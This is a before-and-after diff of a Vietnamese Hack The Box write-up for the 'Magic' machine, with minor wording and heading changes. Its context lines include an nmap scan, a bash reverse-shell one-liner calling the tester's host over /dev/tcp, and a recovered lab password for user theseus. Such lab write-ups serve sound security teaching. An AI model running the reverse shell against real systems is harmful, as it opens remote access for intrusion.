

Before and after one commit to vanniichan/HackTheBox, a Markdown page: Magic/WriteUp.md, 3 parts joined by grey strips. Rendered like a GitHub page; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

````diff
--- a/Magic/WriteUp.md
+++ b/Magic/WriteUp.md
@@ -9,7 +9,7 @@
 
 # Recon
 ## nmap
-Sau khi nmap ta thấy nó scan được **2** port ssh và http
+Sau khi nmap ta scan được **2** port ssh và http
 ```
 ┌──(kali㉿kali)-[~]
 └─$ sudo nmap -sS 10.10.10.185
@@ -125,6 +125,7 @@ Sử dụng `/bin/bash -c 'bash -i > /dev/tcp/10.10.14.93/1234 0>&1'` để có
 
 ![image](https://hackmd.io/_uploads/SJH7ZYM5R.png)
 
+## Post-Exploit
 ### Lateral Movement
 cd qua `home` để lấy user flag nhưng không có quyền đọc file, vì thế tiếp tục tìm xem có gì khac
 
@@ -246,9 +247,8 @@ Password: Th3s3usW4sK1ng
 
 theseus@magic:/var/www/Magic$ whoami
 whoami
+```
 
-```
-## Post-Exploit
 ```
 theseus@magic:~$ ls
 ls
````
